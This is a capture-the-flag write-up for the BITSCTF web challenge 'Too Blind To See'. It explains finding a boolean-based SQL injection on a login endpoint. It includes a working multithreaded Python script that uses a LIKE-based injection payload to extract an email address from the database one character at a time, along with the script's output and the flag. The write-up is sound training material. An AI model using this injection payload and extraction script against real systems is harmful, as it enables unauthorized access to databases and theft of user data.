





# Too Blind To See

`Description`

Mogambro, our rookie intern, just stepped foot into the prestigious Software Firm. His big moment, the first project review, is knocking at the door like a pesky neighbor. But wait! Somewhere in his app lurks a secret which the admins are not aware of, hidden behind the password 'fluffybutterfly'. Can you crack the code and rescue Mogambro from this password puzzle? The clock is ticking!

http://20.244.82.82:7000/




`Solution`

I started with scanning and enumeration of the website using `Burpsuite`. 



And found the high severity vulnerability after scanning then send to repeater.



This is an output based SQL injection. Then tried to bruteforce to grab and email from the database using `LIKE`.



I wrote a script to bruteforce the email from the database.

```python
import requests
import concurrent.futures

chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@."

url = 'http://20.244.82.82:7000/final-destination' # POST


email=''

def check_email(email):
    data = {
        "email": f"' or email like '{email}%'--"
    }
    res = requests.post(url, data=data)
    return "Email exists" in res.text


with concurrent.futures.ThreadPoolExecutor() as executor:
    while True:
        futures = [executor.submit(check_email, email + char) for char in chars]
        concurrent.futures.wait(futures)

        for char, future in zip(chars, futures):
            if future.result():
                email += char
                print("EMAIL: ", email)
                break
```

```
└─$ python3 solver.py
EMAIL:  k
EMAIL:  kr
EMAIL:  kra
EMAIL:  kraz
EMAIL:  krazy
EMAIL:  krazyk
EMAIL:  krazyko
EMAIL:  krazykor
EMAIL:  krazykorg
EMAIL:  krazykorga
EMAIL:  krazykorgao
EMAIL:  krazykorgaon
EMAIL:  krazykorgaonk
EMAIL:  krazykorgaonka
EMAIL:  krazykorgaonkar
EMAIL:  krazykorgaonkar@
EMAIL:  krazykorgaonkar@h
EMAIL:  krazykorgaonkar@ho
EMAIL:  krazykorgaonkar@hot
EMAIL:  krazykorgaonkar@hotm
EMAIL:  krazykorgaonkar@hotma
EMAIL:  krazykorgaonkar@hotmai
EMAIL:  krazykorgaonkar@hotmail
EMAIL:  krazykorgaonkar@hotmail.
EMAIL:  krazykorgaonkar@hotmail.c
EMAIL:  krazykorgaonkar@hotmail.co
EMAIL:  krazykorgaonkar@hotmail.com
```

I got the email and I logged in with the email and password `fluffybutterfly` and got the flag.



`FLAG: BITSCTF{5UB5Cr183r5_4r3_M0r3_7HAN_JU5T_C0N5UM3r5}`